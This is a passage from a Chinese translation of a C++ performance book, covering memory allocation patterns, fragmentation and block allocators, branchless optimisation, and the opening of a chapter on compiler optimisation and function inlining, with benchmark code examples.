性能方面可能会遇到两种与内存相关的问题。第一个问题是使用太多内存:程序要么耗尽内存，要么没有满足内存使用要求。第二个问题发生在程序受到内存限制时，性能受到内存访问速度的限制。在这样的情况下，程序的运行时间与使用的多少内存直接相关，减少内存使用会使程序运行得更快。

本节中介绍的示例适用于处理内存限制程序或频繁和/或大量分配内存的程序。我们从内存分配本身对性能的影响开始。

**9.4.1不必要的内存分配**

与内存使用相关的性能问题之一是*不必要的内存分配*。下面是一个常见的问题，用类似C++的伪代码来描述:

``` {style="styleCXX"}
for ( … many iterations … ) {
	T* buffer = allocate(… size …);
	do_work(buffer); // Computations use memory
	deallocate(buffer);
}
```

良好的程序会使用RAII类来管理回收内存，但是为了清晰明了，希望使显式分配和回收。分配通常隐藏在管理自己内存的对象中，比如STL容器。这样会将大部分时间花在内存分配和回收函数(如`malloc()`和`free()`)上。

可以在基准测试中看到它对性能的影响:

\
**04_buffer.C**

``` {style="styleCXX"}
void BM_make_str_new(benchmark::State & state) {
	const size_t NMax = state.range(0);
	for (auto _: state) {
		const size_t N = (random_number() % NMax) + 1;
		char * buf = new char[N];
		memset(buf, 0xab, N);
		delete[] buf;
	}
	state.SetItemsProcessed(state.iterations());
}
```

这里是通过初始化一个字符串来表示的，`random_number()`返回随机整数值(可能只是`rand()`，但是若预先计算和存储随机数，以避免对随机数生成器进行基准测试，那么基准测试会更简洁)。可能还需要哄骗编译器不要优化掉结果，若`benchmark::DoNotOptimize()`不能满足要求，可能需要插入一个`print`语句，但条件永远不会发生(但编译器并不知道)，比如`rand() < 0`。

从基准中得到的数据没什么意义，需要与其他东西进行比较才可以。我们的例子中，基线很容易确定，可以做相同的工作，但不进行分配。这可以通过将分配和回收移出循环来实现(已知最大内存大小):

\
**04_buffer.C**

``` {style="styleCXX"}
char * buf = new char[NMax];
for (auto _: state) {
	…}
delete[] buf;
```

基准测试中，观察到的性能差异在很大程度上取决于操作系统和系统库，但很可能会看到这样的情况(使用的是随机大小为1KB的字符串):

\
图9.5 - 分配-回收模式对性能的影响

与内存分配模式复杂得多的大型程序相比，微基准测试中的内存分配通常更高效，因此频繁的分配和回收在实际中的影响可能更大。即使在我们的微基准测试中，每次分配内存的实现运行速度只有一次分配最大可能内存量的版本的40%。

如果在计算过程中所需要的最大内存是已知的，那么预先分配内存并从一个迭代到下一个迭代进行重用，就是一个简单的解决方案。这个解决方案也适用于许多容器，对于`vector`或`deque`容器来说，利用调整容器大小不会缩小其容量的事实，可以在迭代开始之前预留内存。

如果事先不知道最大内存大小，解决方案就会复杂一些。这种情况可以使用仅增长的缓冲区来处理。下面是一个简单的缓冲区，只能增长:

\
**04_buffer.C**

``` {style="styleCXX"}
class Buffer {
	size_t size_;
	  std::unique_ptr<char[]> buf_;
	public:
	explicit Buffer(size_t N) : size_(N), buf_(
	new char[N]) {}
	void resize(size_t N) {
		if (N <= size_) return;
		char* new_buf = new char[N];
		memcpy(new_buf, get(), size_);
		buf_.reset(new_buf);
		size_ = N;
	}
	char* get() { return &buf_[0]; }
};
```

同样，这段代码对于演示和探索都非常有用。实际中，可能会使用STL容器或自己的库类，但它们都应该具有增加内存容量的能力。可以通过简单地修改基准测试，来比较这个只增长的缓冲区和固定大小的预分配缓冲区的性能:

\
**04_buffer.C**

``` {style="styleCXX"}
void BM_make_str_buf(benchmark::State& state) {
	const size_t NMax = state.range(0);
	Buffer buf(1);
	for (auto _ : state) {
		const size_t N = (random_number() % NMax) + 1;     
		buf.resize(N);
		memset(buf.get(), 0xab, N);
	}
	state.SetItemsProcessed(state.iterations());
}
```

现实中，使用更智能的内存增长策略可能会得到更好的结果(比请求的内存增长稍微多一些，所以不必经常增加内存------大多数STL容器都采用这种策略)。但在我们的演示中，想让事情尽可能的简单。在同一台机器上，基准测试的结果如下:

\
图9.6 - 只增长缓冲区的性能(与图9.5相比)

只增长的缓冲区比固定大小的缓冲区慢，但比每次分配和回收内存都会快很多。同样，更好的增长政策将使这个缓冲更快，接近固定大小的速度。

多线程程序中，良好的内存管理更为重要，因为对系统内存分配器的调用不能很好地扩展，并且可能涉及全局锁。同一台机器上使用8个线程运行基准测试会产生以下结果:

\
图9.7 - 多线程程序中分配-回收模式对性能的影响

这里，频繁分配的代价更大(只增长缓冲区也展示了分配剩余内存的成本，从而从好的增长策略中受益)。

尽可能少地与操作系统交互。如果有一个循环需要在每次迭代中分配和释放内存，那么在循环之前分配。如果分配的大小相同，或者预先知道最大分配大小，则预分配一个这个大小的内存，并保持它(当然，如果使用几个缓冲区或容器，不应该将它们硬塞到一个分配中，而是应该为每个区域进行预分配)。如果不知道最大内存大小，则使用可以增长的数据结构，但在工作完成之前不要缩减或释放内存。

避免与操作系统交互的建议在多线程程序中尤为重要，现在我们将对并发程序中的内存使用做一些讨论。

**9.4.2并发程序中的内存管理**

操作系统提供的内存分配器是一种平衡多种需求的解决方案。在给定的机器上，只有一个操作系统，但有许多不同的程序，它们有自己独特的需求和内存使用模式，开发人员非常努力地让它在合理的使用方式中不会失败。另一方面，它也很少是最佳解决方案。通常，这已经足够好了，特别是如果需要频繁的申请内存。

在并发程序中，内存分配变得更加低效。主要原因是，内存分配器都必须维护相当复杂的内部数据结构，以跟踪分配和释放内存。在高性能分配器中，内存会细分为多个方面，以便将类似大小的分配组合在一起。这就是以复杂性为代价，提高了性能。如果多个线程同时分配和释放内存，那么内部数据的管理必须由锁来保护。这是一个全局锁，用于整个程序，如果经常调用分配器，它会限制整个程序的扩展性。

这个问题最常见的解决方案是使用带有线程局部缓存的分配器，比如流行的`malloc()`替换库TCMalloc。这些分配器为每个线程预留了一定数量的内存，当一个线程需要分配内存时，首先从线程本地内存域中获取。这并不需要锁，因为只有一个线程与该域交互。只有当域为空时，分配器才必须从所有线程共享的内存中获取锁并进行分配。当一个线程释放内存时，释放的内存会添加到线程特定域中，同样不需要任何锁。

线程本地缓存也不是没有问题。

首先，它们倾向于使用更多的内存。如果线程释放了大量内存，而另一个线程分配了大量内存，那么最近释放的内存对另一个线程来说是不可用的(对于释放它的线程来说内存是本地的)。因此，当未使用的内存可供其他线程使用时，会分配更多的内存。为了限制这种内存浪费，分配器通常不允许每个线程的空间增长超过某个预定义的限制。达到限制时，线程本地内存将返回到所有线程共享的内存域中(这个操作需要一个锁)。

其次，如果每个分配都由一个线程拥有，这些分配器可以工作得很好，相同的线程可以在每个地址分配和释放内存。如果一个线程分配了一些内存，另一个线程必须释放，因为内存必须从一个线程的局部域，转移到另一个线程的局部域(或共享域)，所以这种跨线程释放很困难。基准测试表明，使用标准分配器(如`malloc()`或TCMalloc)的跨线程回收的性能，至少比线程分别拥有本地内存的性能差一个数量级。对于使用线程本地缓存的分配器来说，这可能都是正确的，因此应该尽可能避免线程之间的内存交互。

现在，我们讨论的是将内存从一个线程传输到另一个线程，目的是回收内存。那么简单地使用由另一个线程分配的内存呢？这种内存访问的性能在很大程度上取决于硬件能力。对于CPU较少的简单系统，这可能不是问题。但是较大的系统有多个内存库，并且CPU和内存之间的连接是不对称的。每个内存库更接近一个CPU，这就是所谓的**非均匀内存访问(NUMA)**。NUMA对性能的影响差别很大，*从无关紧要到快了一倍*。有一些方法可以优化NUMA内存系统的性能，并使程序内存管理对NUMA敏感。但请注意，您可能会针对特定的机器调优性能，但关于NUMA系统的一般性性能资料，可以几乎没有。

我们现在回到更有效地使用内存的问题，因为它对并发程序和串行程序的性能都有帮助。

**9.4.3避免内存碎片**

困扰许多程序的问题是与内存分配系统的低效交互。假设程序需要分配1KB的内存。这个内存块是从一些更大的内存空间中取出来的，标记为由分配器使用，并将地址返回给调用者。接下来会分配更多的内存，所以1KB块之后的内存现在也使用了。然后程序返回第一个分配，并立即请求2KB的内存。这时有一个1KB的空闲块，但它不够大，不能满足新的请求。其他地方可能还有另一个1KB的块，但只要这两个块不是紧挨着的，则对于2KB的分配申请就没什么意义:

\
图9.8 - 内存碎片:存在2KB的空闲内存，但对于单个2KB的分配并没啥用

这种情况称为**内存碎片**:系统有程序返回的空闲内存，但必须使用新的内存来服务于下一次分配，因为程序释放的内存分割成小块。在极端的情况下，这种碎片可能会导致程序在系统的总内存容量耗尽之前就"耗尽内存"(作者所见过的最糟糕的情况是，一个程序在只分配了总可用内存的1/6后就"耗尽"了内存)。有些内存分配器比标准的`malloc()`更能抗碎片，但是对于快速移动内存的程序，可能需要更极端的措施。

一种解决方式为块分配器，所有内存都以固定大小的块(比如64KB)分配。不能从操作系统一次分配一个这样大小的块，而是分配较大的内存块(例如，8MB)，并将它们细分为较小的块(在我们的示例中为64KB)。处理这些请求的内存分配器是程序中的主分配器，直接与`malloc()`交互。因为只分配一个大小的块，所以非常简单，这样我们就可以专注于最有效的实现(并发程序的线程本地缓存，实时系统的低延迟等)。当然，谁都不想在代码中处理这些64KB的块(其实这是二级分配器的工作)，如图9.9所示:

\
图9.9 - 固定大小的块分配

可以使用分配器将64KB的块进一步细分为更小的块。统一分配器(只分配一个大小的分配器)非常高效，为单个64位整数分配内存，就可以这样做，而不需要任何内存开销(相比之下，`malloc()`每次分配通常需要至少16个字节的开销)。还可以使用容器以64KB块分配内存，并使用它来存储元素。这里不会使用`vector`，因为它需要一个大型的、连续的分配。这里需要的容器是`deque`，它在固定大小的块中分配内存。当然，也可以使用节点容器。如果STL分配器接口足以满足需求，可以使用STL容器，要不就需要编写自己的容器库了。

固定大小的块分配的优点是不会受到碎片化的影响，`malloc()`的所有分配都是相同的大小，主分配程序的所有分配也是一样的。一个内存块返回给分配器时，都可以重用以满足下一个内存请求。参考下图:

\
图9.10 - 固定大小分配器中的内存重用

这种先进先出的属性也是一个优势。最后的64KB内存块很可能来自最近使用的内存，并且在缓存中仍然是*热的*。重用这个块可以立即改善内存引用的局部性，因此可以更有效地使用缓存。分配调度器会返回块作为一个简单的空闲链表(图9.10)。可以为每个线程维护这些空闲链表，以避免锁的使用，可能需要定期重新平衡，以避免线程积累了过多的空闲块，而另一个线程正在分配新内存的情况。

当然，将64KB块细分成更小大小的分配器时，仍然容易受到碎片的影响，除非也是统一(固定大小)的分配器。然而，如果必须处理较小的内存(一个块)和少量不同大小的内存，那么编写一个可以自动进行碎片整理分配器会更容易。

使用块内存分配的决定很可能会影响整个程序，例如：分配大量的小数据结构，使每个数据结构使用64KB块的一小部分，这将降低内存的性价比。另一方面，如果数据结构本身是一组较小的数据结构(容器)的集合，可以将许多较小对象打包到一个块中，那么这种数据结构就更容易处理。甚至可以编写压缩容器来压缩每个块，以便长期保存数据，然后进行解压缩以便访问。

区块大小本身也不是一成不变的。一些应用程序使用更小的块会更有效率，如果块部分未使用，内存浪费更少。其他线程可以减少大内存块分配的次数，从而在性能上获益。

关于特定于应用程序的分配器的文献非常丰富，例如：slab分配器是刚才看到的块分配器的泛化版本，可以有效地管理多个内存分配。还有许多其他自定义的内存分配器，其中大多数都可以在C++中使用。特定应用程序的分配器通常会带来显著的性能改进，但代价通常是严重限制了开发者实现数据结构的自由。

下一个导致效率低下的常见原因更为微妙，也更难处理。

###  9.5.条件执行的优化 {#条件执行的优化 .unnumbered}

在经历了不必要的计算和低效的内存使用之后，低效的编码、不充分利用大部分可用计算资源代码的下一个问题，可能就是不能很好地流水线化代码。我们已经在第3章中看到了CPU流水线的重要性，还了解了流水线最糟糕的干扰因素通常是条件操作，特别是硬件分支预测器无法猜测的操作。

但优化条件代码以实现更好的流水是C++最困难的优化之一。只有当分析器显示出较差的分支预测时，才应该进行此操作。然而，错误预测的分支的数量并不一定要很大才会认为是"差"的:好的程序通常会有少于0.1%的错误预测分支。1%的预测误差率是相当大的。如果不检查编译器输出(机器码)，也很难预测源代码的优化效果。

如果分析器显示了一个预测不好的条件操作，下一步就是确定哪个条件预测错了。例如:

``` {style="styleCXX"}
if (a[i] || b[i] || c[i]) { … do something … }
```

即使整体结果可预测，也可能产生一个或多个预测不佳的分支。这与C++中布尔逻辑的定义有关。操作符`||`和`&&`可以短路:表达式从左到右求值，直到结果已知。如果`a[i]`为true，则代码就不管数组元素`b[i]`和`c[i]`了。有时，这是必要的。实现的逻辑可能不存在这些元素，但布尔表达式会无缘无故地引入不必要的分支。前面的`if()`语句需要3个条件操作。而在下面的代码中:

``` {style="styleCXX"}
if (a[i] + b[i] + c[i]) { … do something … }
```

如果值`a`、`b`和`c`非负，但需要单个条件操作，则与最上一个示例相同。再次强调，这不是那种应该先做的优化，除非有测试确认这里需要优化。

看一下这个函数:

\
**05_branch.C**

``` {style="styleCXX"}
void f2(bool b, unsigned long x, unsigned long& s) {
	if (b) s += x;
}
```

如果`b`值不可预测，则效率非常低。需要更好的表现，只是一个改变:

\
**05_branch.C**

``` {style="styleCXX"}
void f2(bool b, unsigned long x, unsigned long& s) {
	s += b*x;
}
```

这种改进可以通过一个简单的基准测试来确定:原始的、有条件的、实现与无分支的实现:

commandshell= BM_conditional   176.304M items/s
BM_branchless     498.89M items/s

如您所见，无分支实现比有条件的快3倍。

重要的是，不要在这种类型的优化上走极端。这种优化必须由测试驱动，原因如下:

-   分支预测器相当复杂，对它们能处理和不能处理的直觉大概率是错误的。

-   编译器优化常常会改变代码，因此，如果不测量或检查机器码，即使我们知道会对分支进行预测，猜测的结果可能是错的。

-   即使分支错误地预测，性能影响也会变化，因此在没有测试的情况下没法进行确定。

例如，手动优化这段代码几乎没什么用:

``` {style="styleCXX"}
int f(int x) { return (x > 0) ? x : 0; }
```

这看起来像条件代码，若`x`的符号是随机的，则不可预测。然而，分析器很可能不会在这里显示预测错误的分支，原因是大多数编译器不会使用条件跳转来实现这一行。在x86上，一些编译器将使用CMOVE指令，它执行一个条件移动。根据条件，将值从两个源寄存器之一移动到目标寄存器。这条指令的条件性质是良性的，条件代码的问题是CPU事先不知道接下来执行哪条指令。在有条件的移动实现中，指令序列完全线性，顺序是预先确定的，所以不需要猜测。

另一个不太可能从无分支优化中受益的例子是条件函数调用:

``` {style="styleCXX"}
if (condition) f1(… args …) else f2(… args …);
```

无分支实现可以使用函数指针数组:

``` {style="styleCXX"}
using func_ptr = int(*)(… params …);
static const func_ptr f[2] = { &f1, &f2 };
(*f[condition])(… args …);
```

如果函数最初是内联的，那么用间接函数调用替换会影响性能。否则，这个更改可能没有任何作用。在编译期间跳转到另一个地址未知的函数，其效果类似于错误地预测分支，所以这段代码会使CPU刷新流水线。

优化分支预测需要很多技巧。性能结果可能有改进，也可能没改进(或者只是浪费了一些时间)，所以每一步都要有性能测试进行指导。

我们现在已经了解了许多C++程序中潜在的低效率情况，以及改进它们的方法。最后，我们会给出了一些优化代码的指南。

###  9.6.总结 {#总结-8 .unnumbered}

本章中，我们从语言的角度讨论了C++效率的两个主要方面中的第一个:避免低效的语言结构，这可以归结为只做必要的工作。我们研究过的许多优化技术都与前面的内容相吻合，比如：访问内存的效率和避免并发程序中的错误共享。

每个开发者面临的一个大难题是，在编写高效代码之前应该投入多少工作，以及应该留给优化的工作多少时间。首先，高性能始于设计阶段，是开发高性能软件的重中之重。

除此之外，还应该区分过早的优化和不必要的悲观。创建临时变量以避免混叠是不明智的，除非性能测试数据显示，正在优化的函数对总体执行时间有很大的贡献(或者提高了可读性，这是另一回事)。在分析器报告之前，按值传递大型数据只会使运行效率下降，应该从一开始就避免这样做。

两者之间的界限并不明确，所以必须权衡几个因素。需要考虑修改对程序的影响，会使代码更难阅读、更复杂，还是更难测试？通常，不希望为了性能而冒险制造更多的Bug，除非测试报告说必须这样做。另一方面，有时可读性更强或更简单的代码也是高效的代码，因此不能认为优化是过早的。

C++效率的第二个方面是帮助编译器生成更高效的代码。我们将在下一章讨论这个问题。

###  9.7.练习题 {#练习题-8 .unnumbered}

1.  何时通过值传递大型对象是可接受的？

2.  当使用拥有资源的智能指针时，应该如何使用操作对象的函数？

3.  什么是返回值优化，需要在哪里使用？

4.  为什么低效的内存管理不仅会影响内存消耗，还会影响运行时性能？

5.  A-B-A问题是什么？

##  第10章C++中的编译器优化 {#第10章c中的编译器优化 .unnumbered}

上一章中，我们了解了C++程序中效率低下的主要原因，消除这些低效率的重担就落在开发者身上。然而，编译器还可以做很多事情来可以使程序更快，这就是现在要探讨的。本章将介绍编译器优化的重要内容，以及开发者如何帮助编译器生成更高效的代码。

本章将讨论以下内容:

-   编译器如何优化代码

-   编译器优化的限制

-   如何从编译器处获得最佳优化

###  10.1.相关准备 {#相关准备-8 .unnumbered}

需要一个C++编译器和一个微基准测试工具，比如谷歌基准测试库(<https://github.com/google/benchmark>)。

本章的源码地址：<https://github.com/PacktPublishing/The-Art-of-Writing-EfficientPrograms/tree/master/Chapter10>。

还需要一种方法来检查编译器生成的汇编代码，许多开发环境都有汇编代码的选项，GCC和Clang可以写出汇编代码，而不是目标代码。调试器和其他工具，可以从目标代码生成汇编代码(对其进行反汇编)，而使用哪种工具随个人喜好即可。

###  10.2.编译器优化代码 {#编译器优化代码 .unnumbered}

编译器优化对于高性能实现也很重要。运行一个编译时根本没有优化的程序，就能体会到编译器的作用，一个未优化的程序(优化级别为0)运行速度比启用所有优化后编译的程序慢一个数量级。

然而，优化器可以从开发者那里得到一些帮助。这种帮助可以通过非常微妙的形式，有时是反直觉的。在研究一些改进代码优化的技术之前，有助于理解编译器是如何处理程序的。

**10.2.1编译器优化的基础知识**

关于优化必须了解的是，代码都必须保持正确。这里的正确与否与开发者主观认为什么是正确无关。程序可能会有错误，并给出一个看起来错误的答案，但编译器必须保留这个答案，而定义不明确或调用未定义行为的程序则是例外。如果程序在标准看来是错误的，编译器可以自由地做它想做的事情。我们将在下一章中来研究这一点。现在，我们将假设程序定义良好，并且只使用有效的C++语句。当然，由于答案不能因输入组合而改变，所以编译器在更改方面会受到限制。开发者可能知道某个输入值是正的，或者某个字符串中的字符永远不会超过16个，但编译器并不知道(除非找到一种方法来告诉它)。编译器只能够证明这种转换会产生完全等价的程序时，才能进行优化转换，从而该程序对任何输入都产生相同的输出。实际中，若是复杂性让编译器难以控制，编译器也会放弃修改。

理解这些是通过代码成功地与编译器交互，并实现更好的优化的关键。本章的其余部分展示了不同的方法，可以证明某些理想的优化并不会改变程序的行为。

编译器还受限于程序的信息。它只能处理编译时已知的内容，不了解任何运行时数据，并且假设运行时的合法状态都有可能。

下面是一个简单的例子:

``` {style="styleCXX"}
std::vector<int> v;
… fill v with data …
for (int& x : v) ++x;
```

关注的焦点是最后一行------循环。如果手动展开循环，性能可能会更好，每个增量都有一个分支(循环终止条件)，展开循环可以减少此开销。在一个只有两个元素的简单`vector`例子中，最好完全删除循环，只对两个元素进行递增。但是，`vector`的大小是运行时的信息，编译器可能会生成一个带有一些分支的部分展开循环来处理所有可能的`vector`大小，但它无法针对特定大小对代码进行优化。

将它与下面的代码进行对比:

``` {style="styleCXX"}
int v[16];
… fill v with data …
for (int& x : v) ++x;
```

现在编译器确切地知道在循环中处理了多少整数，可以展开循环，甚至可以用一次操作多个数字的向量指令替换单个整数递增操作(例如，在x86上的AVX2指令可以一次处理8个整数)。

如果开发者知道`vector`总是有16个元素呢？可能并不重要。重要的是编译器是否知道，并且能够确定无误，这比想象的要难。例如，以下代码:

``` {style="styleCXX"}
constexpr size_t N = 16;
std::vector<int> v(N);
… fill v with data …
for (int& x : v) ++x;
```

开发者用他们自己的方式使`vector`的大小成为一个编译时常量。编译器会优化循环吗？有可能。这完全取决于编译器能否确定`vector`的大小不会改变。它将如何改变？可以先问问自己，填充`vector`的代码中可能隐藏着什么？虽然对于开发者来说这是已知的，但如何让编译器也知道呢？所有的代码都是在构造和递增循环这两行之间编写的，编译器可以知道所有的东西(实际上，如果这个代码段太长，编译器就会放弃，并假设任何可能性，否则编译时间就会爆炸)。但若调用一个函数，而该函数可以访问`vector`对象，编译器则无法知道该函数是否改变了`vector`的大小(除非该函数是内联的)。像`fill_vector_without_resizing()`这样的函数名，只对开发者阅读程序有帮助。

即使没有函数以`v`作为参数，仍然不清楚函数要如何访问`vector`对象？如果`vector v`是在函数作用域中声明的局部变量，那可能不能。但如果`v`是一个全局变量，任何函数都可以访问它。类似地，如果`v`是类的成员变量，成员函数或友元函数都可以访问它。因此，如果调用一个非内联函数，这个函数不能通过参数直接访问`v`，那么可以通过其他方式访问`v`(并且对于创建局部变量的全局指针这一邪恶的做法，知道的人越少越好)。

从开发者的角度来看，很容易高估编译器所知道的东西。另外，在大多数情况下，把问题弄清楚并不是编译器的优点。例如：可以在循环之前添加一个断言:

``` {style="styleCXX"}
constexpr size_t N = 16;
std::vector<int> v(N);
… fill v with data …
assert(v.size() == N); // if (v.size() != N) abort();
for (int& x : v) ++x;
```

一些编译器在使用最高的优化级别和未优化的上下文中，会推断执行流不能进入循环，除非`vector`恰好有16个元素，并将优化该大小。并且，多数编译器不会这么做。

已经考虑过的基本示例中，用来帮助编译器优化代码的关键技术:

-   非内联函数会破坏大多数优化，因为编译器必须假设一个函数，但没有看到具体的代码，所以可以做任何合法的事情。

-   全局变量和共享变量对于优化有害。

-   编译器更可能优化短而简单的代码，而不是长而复杂的代码。

第一个和最后一个在某种程度上有冲突。编译器中的大多数优化都局限于**基本代码块**，这些块只有一个入口点和一个出口点，在程序的流控制图中充当节点。基本块之所以重要，是因为编译器可以看到块内发生的一切，因此可以对不改变输出的代码转换进行推理，所以内联的优点是它增加了基本块的大小。编译器不知道非内联函数在做什么，所以需要做最坏的假设。但若函数是内联的，编译器就能确切地知道它在做什么了(更重要的是，它没有做什么)。内联的缺点也在于它增加了基本块的大小，编译器只能分析这么多代码，而不会使编译时间变得不合理。内联对于编译器优化是非常重要的，原因我们将在后面进行讨论。

**10.2.2函数内联**

当使用函数体的副本替换函数调用时，将由编译器执行。为了实现这一点，内联函数的定义必须在调用代码的编译过程中可见，调用的函数必须在编译时已知。第一个要求在进行全程序优化的编译器中是宽松的(不常见)。第二个要求排除虚函数调用和通过函数指针间接调用，并不是每个可以内联的函数最终都可以内联，编译器必须权衡代码膨胀和内联带来的好处。不同的编译器对于内联有不同的处理方法，C++的`inline`关键字只是一个建议，编译器可以忽视。

函数调用内联最明显的好处是消除了函数调用的成本。大多数情况下，当函数调用的开销不是那么大，也就不重要了。其主要的好处是，编译器跨函数调用的优化能力非常有限。考虑下面的代码:

``` {style="styleCXX"}
double f(int& i, double x) {
	double res = g(x);
	++i;
	res += h(x);
	res += g(x);
	++i;
	res += h(x);
	return res;
}
```

以下是有效的优化吗？

``` {style="styleCXX"}
double f(int& i, double x) {
	i += 2;
	return 2*(g(x) + h(x));
}
```

如果回答"是"，那么仍然是从开发者的角度，而不是从编译器的角度来看待这个问题。这种优化有很多方式会破坏代码(对于编写的合理的程序来说，可能没有一种是正确的，但编译器不能做的假设是自己是一个开发者)。

-   首先，`g()`和`h()`可以产生输出。这种情况下，消除重复的函数调用将改变可观察行为。

-   其次，对`g()`的调用可能会锁定一些互斥对象，而对`h()`的调用可能会解锁它。这样，执行的顺序------调用`g()`锁定，增加`i`计数，调用`h()`解锁------就非常重要了。

-   第三，即使参数相同，`g()`和`h()`的结果也可能不同，例如：可以在内部使用随机数。

-   最后(这种可能性经常被忽略)，变量`i`是通过引用传递的，所以不知道调用者还对它做了什么。可以是一个全局变量，或者某个对象可能会存储对它的引用，函数`g()`和`h()`可能会对`i`进行操作，即使没有看到它传入到这些函数中。

另一方面，如果函数`g()`和`h()`内联，编译器可以确切地看到发生了什么:

``` {style="styleCXX"}
double f(int& i, double x) {
	double res = x + 1; // g(x);
	++i;
	res += x – 1; // h(x);
	res += x + 1; // g(x)
	++i;
	res += x – 1; // h(x);
	return res;
}
```

整个函数`f()`现在是一个基本块，编译器只有一个限制:保留返回值。现在，就是一个有效的优化了:

``` {style="styleCXX"}
double f(int& i, double x) {
	i += 2;
	return 4*x;
}
```

内联对优化的影响可以延伸到很远。考虑STL容器的析构函数，例如`std::vector<T>`。必须做的是调用容器中所有对象的析构函数:

``` {style="styleCXX"}
for (auto it = crbegin(); it != crend(); ++it) it->~T();
```

因此，析构函数的执行时间与`vector`的大小N成正比。考虑一个由整数组成的`rstd::vector<int>`，编译器非常清楚析构函数在这种情况下的作用:什么都不做。编译器还可以看到，对`crbegin()`和`crend()`的调用并不会修改`vector`对象(如果想通过`const_iterator`销毁对象，请考虑如何销毁`const`对象)。因此，可以消除整个循环。

现在考虑使用结构体的`vector`:

``` {style="styleCXX"}
struct S {
	long a;
	double x;
};
std::vector<S> v;
```

这一次，类型`T`有一个析构函数，并且编译器知道它的作用(因为通过编译器生成)。同样，析构函数什么也不做，整个销毁循环消除。对于默认析构函数也是如此:

``` {style="styleCXX"}
struct S {
	long a;
	double x;
	~S() = default;
};
```

编译器应该能够为空析构函数做同样的优化，但只有内联时才会这么做:

``` {style="styleCXX"}
struct S {
	long a;
	double x;
	~S() {}     // Probably optimized away
};
```

另一方面，如果类声明只是像下面这样声明析构函数:

``` {style="styleCXX"}
struct S {
	long a;
	double x;
	~S();
};
```

定义是在单独的编译单元中提供的，然后编译器为每个`vector`元素生成一个函数调用。这个函数仍然什么也不做，但需要时间来运行循环，并执行N个函数调用。内联允许编译器将这优化为零。

这是内联及其对优化的影响的关键，内联允许编译器看到在本来神秘的函数中没有发生的事情。内联还有另一个重要的作用，创建内联函数体的唯一副本，可以使用调用者给出的特定输入进行优化。在这个唯一的副本中，可能会观察到一些对优化友好的条件，而这些条件对于函数通常是不正确的。下面是一个例子:

``` {style="styleCXX"}
bool pred(int i) { return i == 0; }
…
std::vector<int> v = … fill vector with data …;
auto it = std::find_if(v.begin(), v.end(), pred);
```

假设函数`pred()`的定义与对`std::find_if()`的调用在同一个编译单元中，对`pred()`的调用是否内联？答案是"可能"，这主要取决于`find_if()`是否内联。现在，`find_if()`是模板，所以编译器可以看到函数的定义。如果`find_if()`没有内联，则从模板中会为特定类型生成一个函数。这个函数中，第三个实参的类型是已知的:`bool (*)(int)`指向接受`int`类型并返回`bool`类型的函数的指针。但是这个指针在编译时未知，同一个`find_if()`函数可以用许多不同的谓词来调用，这些谓词都不能是内联的。只有当编译器为这个特定的调用生成唯一的`find_if()`副本时，谓词函数才能内联。编译器有时会这样做，这就是所谓的复制。但在大多数情况下，内联谓词或作为参数传入的其他内部函数的唯一方法，是首先内联外部函数。

这个特殊的例子在不同的编译器上会产生不同的结果，GCC将只在最高的优化级别下内联`find_if()`和`pred()`。其他编译器甚至不会这样做。然而，还有另一种方法鼓励编译器使用内联函数调用的方式，这似乎是反直觉的，因为这会向程序中添加了更多的代码，并使嵌套函数调用更加冗长:

``` {style="styleCXX"}
bool pred(int i) { return i == 0; }
…
std::vector<int> v = … fill vector with data …;
auto it = std::find_if(v.begin(), v.end(),
  [&](int i) { return pred(i); });
```

这里的矛盾之处是，在同一个间接函数调用周围添加了一个间接层，即Lambda表达式(假设开发者不想简单地将谓词直接复制到Lambda中有其他的原因)。即使编译器没有内联`find_if()`，但`pred()`实际上更容易内联。因为，这一次谓词的类型是唯一的:每个Lambda表达式都有一个唯一的类型，因此对于这些特定的类型参数，`find_if()`模板实例化一次。编译器可能会内联一个调用一次的函数，这样做就不会生成过多的代码。使对`find_if()`的调用没有内联，但在该函数中，第三个参数只有一个可能，这个值在编译时就知道是`pred()`。因此，对`pred()`的调用可以内联。

现在，可以继续在第1章中提出的"虚函数调用的成本"问题了。首先，编译器使用函数指针表来实现虚调用，因此调用本身涉及到间接层。与非虚调用相比，CPU必须多读一个指针，并多做一次跳转。这为函数调用增加了更多的指令，使函数调用的代码开销增加了一倍(根据硬件和缓存状态有很大的变化)。然而，我们通常调用一个函数来完成工作，因此函数调用的机制只是函数执行总时间的一部分。即使对于简单函数，虚函数的开销也很少超过非虚函数的10-15%。

然而，在花费太多时间计算指令之前，应该质疑最初的问题的有效性。如果一个非虚函数调用是充分的，也就在编译时就知道将调用哪个函数，为什么一开始要使用虚函数呢？如果发现只在运行时调用哪个函数，就根本不能使用非虚函数，因此它的速度无关紧要。按照这个逻辑，应该比较虚函数调用和函数等价的运行时解决方案，有条件地调用几个函数中的一个，使用一些运行时信息来选择。使用`if-else`或`switch`通常会导致执行速度变慢，至少在要调用函数有两个以上的重载版本时是这样。最有效的实现是使用函数指针表，这正是编译器对虚函数所做的。

当然，问题也并不是毫无意义。如果有一个带有虚函数的多态类，但是在某些情况下，在编译时就知道了实际的类型，该怎么办？这时，比较虚函数调用和非虚函数调用就有意义了。

还需要了解一下合适的编译器优化。如果编译器能够在编译时确定对象的真实类型，从而知道将调用虚拟函数的哪个重载版本，那么它将在去虚拟化中将调用转换为非虚的。

但是，为什么要在讨论内联的章节中讨论这个问题呢？因为我们忽略了一个事实，虚函数对性能的最大影响是(除非编译器可以反虚化调用)不能内联。一个简单的函数，如`int f() ``return x;`的结果是在内联之后只有一条，甚至没有指令，但是非内联版本具有常规的函数调用机制，就要慢一个数量级。若没有内联，编译器就无法知道虚函数内部发生了什么，必须对每一个外部可访问的数据块做出最坏的假设。所以在最坏的情况下，虚函数调用的代价可能会高出数千倍。

内联、展示函数体实现和创建唯一的、特化的函数副本的两种效果都有助于优化器，因为它们增加了编译器对代码的了解。若想帮助编译器更好地优化代码，那么理解编译器真正了解什么非常重要。

现在，我们将探讨编译器在不同的约束下运行的情况，这样就可以发现错误的约束:一些是开发者认为是已知的，但编译器却不这么认为的情况。

**10.2.3编译器到底知道什么？**

也许对优化的最大限制是，了解在此代码执行期间可能会进行修改的内容。为什么这很重要？下面是一个例子:

``` {style="styleCXX"}
int g(int a);
int f(const std::vector<int>& v, bool b) {
	int sum = 0;
	for (int a : v) {
		if (b) sum += g(a);
	}
	return sum;
}
```

只有`g()`的声明是可用的。编译器能优化`if()`语句，并消除条件的重复求值吗？在经历了本章所有的惊喜和陷阱之后，我们可能正在寻找一个不这样做的原因。但结果是没有，这是一个完全有效的优化:

``` {style="styleCXX"}
int f(const std::vector<int>& v, bool b) {
	if (!b) return 0;
	int sum = 0;
